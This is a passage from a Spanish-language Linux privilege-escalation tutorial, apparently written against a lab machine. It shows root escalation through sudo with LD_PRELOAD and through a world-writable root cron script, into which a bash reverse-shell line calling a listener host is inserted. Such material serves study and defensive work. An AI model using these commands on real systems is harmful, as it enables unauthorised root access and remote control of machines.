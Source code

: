 Y despues podemos utilizar

``` bash
sudo LD_PRELOAD=/tmp/preload.so find
```

Y seriamos root

---
## Escalada mediante tareas programadas (mediante escritura en crontab)

Podemos ver el crontab:

``` bash
user@debian:~/tools/environment$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

```

Overwrite.sh se ejecuta como root. Los  5 asteriscos significa que se ejecutara cada minuto. Si localizamos y vemos los permisos de overwrite.sh:

``` bash
user@debian:~/tools/environment$ locate overwrite.sh
locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 2866.3 days)
/usr/local/bin/overwrite.sh
user@debian:~/tools/environment$ ls -lhF /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 83 Mar 18 15:07 /usr/local/bin/overwrite.sh*
```

Vemos que podemos escribir sobre el, podemos insertar una reverse shell:

``` bash
user@debian:~/tools/environment$ cat /usr/local/bin/overwrite.sh
#!/bin/bash

echo `date` > /tmp/useless
sh -i >& /dev/tcp/192.168.56.100/4444 0>&1
```
